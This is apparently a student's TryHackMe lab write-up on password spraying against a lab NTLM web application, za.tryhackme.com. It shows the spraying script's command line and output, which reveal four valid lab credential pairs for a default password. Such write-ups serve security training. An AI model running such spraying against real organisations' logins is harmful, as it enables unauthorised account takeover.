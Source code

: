 # Network connection
- Added IP of `THMDC` to Network Manger > Advanced Setting > My network(`eth0`) > IPv4 > Additional DNS Server > THMDC IP (10.200.24.101), 1.1.1.1


## Password Spraying
- We will use password Spraying technique for a found password, for e.g., found a default password for new user in OSINT search. 
- In password spraying, unlike brute-forcing, a password is used against different users, this will prevent the account from lockout.
- We will password spray a website `http://ntlmauth.za.tryhackme.com/`
- We already have a custom password spraying script made by the room author .

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

> userfile - Textfile containing our usernames - "usernames.txt"
> fqdn - Fully qualified domain name associated with the organisation that we are attacking - "za.tryhackme.com"
> password - The password we want to use for our spraying attack - "Changeme123"
> attackurl - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"

- Started the script and found 4 valid credential pairs

```console
❯ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com  | tee password_spry.log
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

- Logged on to found this webpage

```html
<html>
  <head>
  </head>
  <body>
    Hello World
  </body>
</html>
```
